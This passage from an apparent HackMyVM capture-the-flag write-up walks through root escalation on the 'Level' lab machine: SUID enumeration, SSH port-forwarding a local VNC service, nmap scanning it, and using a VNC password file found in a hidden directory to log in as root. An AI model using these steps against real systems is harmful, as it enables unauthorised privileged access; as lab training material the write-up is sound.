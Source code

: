 /usr/bin/umount
/usr/bin/chsh
one@Level:~$ 
```
Nothing on `SUID` also let check if we have any ports running locally.

![image](https://user-images.githubusercontent.com/69868171/140082762-28364d54-34ec-440d-83d5-bf713f0d232d.png)

Interesting we have VNC port open locally on the target we can confirm it let port forward to our machine.

### Port Forwarding
```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/level]
└─$ ssh -L 5901:localhost:5901 one@172.16.109.148 -p65000
```

![image](https://user-images.githubusercontent.com/69868171/140085165-6bdefc7c-fd81-43ee-883b-f5383eef6c3f.png)


```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/level]
└─$ nmap -sV -sC localhost -p5901
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 12:55 WAT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000072s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
5901/tcp open  vnc     VNC (protocol 3.3; Locked out)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

But seems we need a password to be able to accesss VNC let go back to the target to enumerate more.

![image](https://user-images.githubusercontent.com/69868171/140089211-544d3b71-fc19-4deb-8980-2be3c52649f3.png)

We found a hidden directory with `...` let check it out .

![image](https://user-images.githubusercontent.com/69868171/140090342-0ec5b773-a9dd-4e57-be38-afd77014e886.png)

Possible our way to get access to the VNC let give it a try so i transfer the file to my machine.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/level]
└─$ vncviewer localhost:5901 -p remote_level
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Authentication successful
Desktop name "Level:1 (root)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```
```